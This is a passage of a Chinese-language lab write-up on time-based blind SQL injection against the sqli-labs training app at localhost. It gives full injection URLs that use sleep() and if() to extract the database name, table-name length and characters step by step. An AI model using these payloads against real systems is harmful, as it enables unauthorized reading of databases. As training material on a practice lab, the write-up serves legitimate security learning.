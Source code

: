 #### 猜解数据库名第2个字符

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and sleep(if((mid(database(),2,1)='e'),5,0))--+`

延时5秒后显示完毕，说明数据库名第二个字母为e

![](https://img.yatjay.top/md/202203251649763.png)

依次猜解得到数据库名为`security`

### 猜解第一张表的表名长度

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and if((select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6,sleep(5),0)--+`

**注意**：length()要加在要查询的字段名之外，不能加在整个select语句之外

延时5秒后显示完毕，说明数据库下的第一张表的表名长度为6

![](https://img.yatjay.top/md/202203251649838.png)

### 猜解第一张表表名

#### 猜解表名第二个字符

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109),sleep(5),0)--+`

注意：括号嵌套较多，最里面的括号往往意味着最高的优先级，所以一定要将`select table_name from information_schema.tables where table_schema=database() limit 0,1`加上一层括号，保证这句先执行成功之后再对查询结果记录做截取、ASCII编码操作，一定注意括号。

可知表名的第二个字符的ASCII码是109也就是m

![](https://img.yatjay.top/md/202203251649388.png)

依次得到数据库中第一张表的表名为`emails`

### 猜解表名之下的列名

略

## sqlilabs-less46注入测试(排序盲注)





















